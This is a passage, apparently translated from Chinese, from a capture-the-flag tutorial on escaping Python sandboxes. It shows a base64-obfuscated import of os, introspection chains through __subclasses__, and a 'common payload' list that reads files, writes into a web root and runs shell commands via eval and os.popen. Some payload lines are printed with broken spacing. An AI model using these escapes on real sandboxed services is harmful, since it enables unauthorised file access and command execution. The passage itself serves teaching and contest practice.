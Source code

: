 Then quoted by **__dict__**
```py

>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))

```



* If some introverted functions are removed in __builtins__, we can reload them by reload(__builtins__) to get a complete __builtins__*
## Creating objects and references
There are a lot of basic functions integrated in Python's object class, and we can also refer to it by creating objects when we want to call them.


We have two common methods:
```bash

().__class__.__bases__[0]

''.__class__.__mro__[2]

```

![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)

For example, we can pass
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()` achieves the effect of file reading,


**Common payload**
```py

#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()



#Write file
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')



#Execute arbitrary commands
() .__ class __.__ bases __ [0] .__ subclasses __ () [59] .__ init __. func_globals.values () [13] ['eval'] ('__ import __ ("os"). popen ("ls / var / www / html "). read () ')
```



## Indirect reference
In some topics, such as the Python sandbox issue of the 2018 National Tournament, the import is actually castrated. But in Python, the native **__import__** is referenced, as long as we find the relevant object reference, we can further get what we want, the following demo will tell you
